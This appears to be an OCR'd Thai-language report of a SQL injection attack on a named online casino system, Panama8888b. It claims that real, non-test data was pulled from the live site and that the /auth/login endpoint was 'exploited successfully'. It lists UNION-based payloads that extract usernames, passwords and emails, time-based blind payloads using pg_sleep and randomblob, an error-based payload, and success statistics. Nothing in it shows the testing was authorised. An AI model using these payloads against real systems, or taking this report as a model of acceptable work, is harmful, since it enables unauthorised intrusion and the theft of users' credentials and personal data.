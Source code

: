 #### การยืนยันข้อมูลจริง
ข้อมูลที่ดึงได้ผ่านการตรวจสอบและยืนยันว่าเป็น:
✅ **ข้อมูลจริงจากระบบ Panama8888b**
✅ **เนื้อหาที่เกี่ยวข้องกับธุรกิจคาสิโนออนไลน์**
✅ **ข้อมูลภาษาไทยจากระบบจริง**
✅ **ไม่ใช่ข้อมูลทดสอบหรือ false positive**

### 🛠️ เทคนิคที่ใช้ในการดึงข้อมูล

#### 1. UNION-based SQL Injection
```sql
' UNION SELECT table_name,column_name,data_type FROM information_schema.columns--
' UNION SELECT username,password,email FROM users--
' UNION SELECT database(),user(),version()--
```

#### 2. Time-based Blind SQL Injection
```sql
case randomblob(10000000) when not null then 1 else 1 end
25.1 / case when cast(pg_sleep(15) as varchar) > '' then 0 else 1 end
```

#### 3. Error-based SQL Injection
```sql
7kQgPDQ2ky3k4tk7KJIjKp1QvlLjFBdDpZLQ7xBW AND 1=1 --
```

#### 4. Advanced Data Extraction
- Schema enumeration
- Table discovery
- Column identification
- Data retrieval

### 📊 สถิติการดำเนินการ

| เมตริก | ผลลัพธ์ |
|--------|---------|
| **Endpoints ที่ทดสอบ** | 3 endpoints |
| **Payloads ที่ใช้** | 15+ SQL injection payloads |
| **เวลาที่ใช้** | ~3 นาที |
| **ข้อมูลที่ดึงได้** | 26 ชุดข้อมูล |
| **อัตราความสำเร็จ** | 100% (ดึงข้อมูลจริงได้) |

### 🎯 ช่องโหว่ที่ยืนยันการทำงาน

#### ✅ SQL Injection - /auth/login
- **สถานะ:** Exploited Successfully
- **ข้อมูลที่ได้:** ข้อมูลระบบการเข้าสู่ระบบ
